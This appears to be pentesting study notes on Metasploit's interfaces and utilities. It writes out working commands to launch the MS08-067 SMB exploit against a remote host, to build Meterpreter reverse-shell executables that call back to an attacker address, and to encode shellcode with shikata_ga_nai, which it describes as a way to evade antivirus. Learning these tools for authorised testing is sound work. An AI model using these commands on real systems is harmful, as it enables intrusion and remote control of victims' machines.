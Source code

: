 # Exploitation Tools

As the Information Gathering and Vulnerability Analysis ends, the main concept of hacking appears. The time to use all security flaws found and take of advantage of every hole exposed. When it comes to exploitation, **it should only be done when there is enough information to guarantee success.** Going into an exploitation blindly is noisey and disruptive. 

## Metasploit 

This widely known pentesting framework has been the go-to for information gathering, gaining access , evading detection and being an overall Swiss army chainsaw. It also allows you to write security tools and exploit codes from scratch. 


Metasploit Cheat Sheet: https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf

### Metasploit Interfaces

One of the benefits of metasploit, is the option of having more that one interface to work in. It helps zero-in on a specific exploitaiton situation instead of using the flexibility of the entire framework. 

These interfaces include, 

1. MSFconsole
2. MSFcli
3. Armitage 

#### msfconsole

It is dubbed the most popular interface of metasploit due to it being the most flexible, containing the most features, and having well supported tools. 

It can be used for, 

1. Launching an exploit 
2. Loading Auxiliary modules 
3. Performing Enumeration
4. Creating Listeners
5. Running Mass Exploitaiton 

#### msfcli 

On contrary to msfconsole, msfcli focuses on scripting and interpretability instead of being a user-friendly enviornment. It runs directly from the command line, with allows for output redirection to and from other tools. Due to it's 'create your own enviornment' mentality it makes it less forgiving, but more creative. It can also be used to for testing modules and making new exploits from scratch for the framework. 

**msfcli windows/smb/ms08_067_netapi O**

The command above shows the options available in the module specified. 

1. **O** 
    - Options available parameter

2. **ms08_067_netapi** 
    - name of the module 

**msfcli windows/smb/ms08_067_netapi RHOST=<\IP address\> P**

The command above checks for available payloads by using the **P** parameter and the IP address of the remote host. 

**msfcli windows/smb/ms08_067_netapi
 RHOST=<\IP addresss\> PAYLOAD=windows/shell/bind_tcp E**

The command above runs the exploit using the remote hosts' IP address, the chosen payload, and the **E** parameter. 

#### Armitage 

The armitage interface is an interactive GUI that can be used to speed up the process when the concept of the innerworkings of Metasploit are solid. 

### Metasplot Utilities 

These utilities are direct interfaces to particular features for specific situations in the framework. 

They include, 

1. MSFpayload (deprecated )
2. MSFencode ( deprecated )
3. MSFvenom
3. Nasm Shell 

#### msfpayload

This utility allows for the generation of shellcode and executables. **msfpayload and msfencode have been replaced by msfvenom**

Shellcode can be generated through,

1. C
    - For Pythod-based proof of concept
2. JavaScript
    - For Browser Exploit 
3. Ruby
4. VisualBasic

**msfpayload windows/meterpreter/bind_tcp O** # list available options for that payload

**msfpayload windows/meterpreter/reverse_tcp LHOST= <\Local host ip address\>  LPORT=443 X > payload.exe**

The command above creates a **reverse_tcp** payload to connect to the local host through port 443, then saves it as a Windows Executable. 

**msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R > payload.raw**

The command above is the same as the one before, but instead the payload is exported as raw format. 

**msfpayload windows/meterpreter/bind_tcp LPORT=443 C > payload.c # Same as above except exported as C-formatted shellcode**

msfpayload windows/meterpreter/bind_tcp LPORT=443 J > payload.java # Exported as %u encoded JavaScript

#### msfencode

While the code generated from msfencode is fully functional, several null characters are integrated for the sole purpose of evading antivirus software. Metasploit developers specifically created msfencode in order to mitigate the "bad" characters the protection software reads in. 

#### msfvenom

A combination of both msfencode and msfpayload, that puts both of those tools into one framework instance. 

**msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python**

1. **-a x86** 
     - use the architecture
     
     
2. **--platform**
     - platform use windows
     
     
3. **-p**
     - specified payload *windows/shell/bind_tcp*
     
     
4. **-e x86/shikata_ga_nai**
     - use encoder **x86/shikata_ga_nai**
     
     
5. **-b** 
     - list of bad characters 
     
     
6. **-i 3** 
     - use three iterations 
     
     
7. ** -f python**
     - output in python

#### nasm shell 

Utility used when identifiying opcodes, or coding in assembly language. 

**./nasm_shell.rb** # start 

**nasm > jmp esp** # asking nasm shell for the opcode of the jmp esp command 
